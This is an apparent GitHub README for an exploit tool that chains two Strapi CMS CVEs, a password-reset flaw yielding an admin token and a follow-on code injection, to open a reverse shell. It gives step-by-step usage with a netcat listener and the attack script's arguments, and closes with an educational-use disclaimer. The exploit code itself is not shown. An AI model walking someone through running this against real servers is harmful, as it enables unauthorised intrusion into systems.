 # Strapi-RCE
Exploit script showcasing a mixture of [CVE-2019-18818](https://www.exploit-db.com/exploits/50237) and [CVE-2019-19609](https://www.exploit-db.com/exploits/50238) for unauthenticated remote code execution in Strapi CMS.

## Exploit

This script exploits a vulnerability in Strapi CMS versions 3.0.0-beta.17.4 and lower, allowing for unauthenticated remote code execution.

## Description

The exploit works by first leveraging a password reset vulnerability to obtain a JSON Web Token (JWT) for an administrative user. This token is then used to send a malicious payload to the Strapi CMS, which triggers a reverse shell back to the attacker's machine.

## How to Use

1. **Clone the Repository:**

   ```sh
   git clone https://github.com/Hackhoven/Strapi-RCE.git
   ```
2. **Navigate to the directory**
   
   ```sh
   cd Strapi-RCE/
   ```
3. **Set up a Netcat Listener**
   
   ```sh
   nc -nlvp <LPORT>
   ```
4. **Run the script with the target URL, local host ip address, and local host port as arguments**
   
   ```sh
   python3 strapi-rce.py <TARGET_URL> <LHOST> <LPORT>
   ```


## Disclaimer
This script is intended for educational purposes only. The author does not condone or support the use of this script for illegal or unethical activities. This script should only be used in legal security research or CTF environments. Use at your own risk.



---

Made by [Hackhoven](https://github.com/Hakchoven)
